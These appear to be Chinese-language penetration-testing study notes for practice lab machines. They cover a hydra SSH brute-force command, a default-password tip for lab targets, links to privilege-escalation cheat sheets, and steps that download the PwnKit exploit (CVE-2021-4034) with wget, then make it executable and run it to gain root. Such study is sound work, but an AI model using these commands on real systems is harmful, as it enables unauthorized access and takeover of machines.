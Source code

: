 遠端登入
```
ssh <username>@<IP>
```
登入成功
![image](images/SyumynRIa.png)

*補充
hydra -L 字典黨 -P 字典黨 127.0.0.1 -s 8888 -t 4 ssh

### owaspbwa
https://code.google.com/archive/p/owaspbwa/
https://code.google.com/archive/p/owaspbwa/wikis/UserGuide.wiki

**小密技，遇到這種靶機，Pa$$w0rd123，這個密碼直接試試看**

### Privilege Escalation
* Linux https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
* Windows
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

#### su 與 sudo 的差異
* su:
切換至目標帳號/需要目標帳號密碼
* sudo:
    預授權
    1. 是否驗證(自己的密碼)
    2. 路徑、檔名、參數

#### PwnKit
Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

使用腳本
https://github.com/ly4k/PwnKit
下載路徑
```
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
```
將payload放進目標機後
給予payload執行權限
```
chmod +x PwnKit
```
執行
```
./PwnKit
```
成功提權
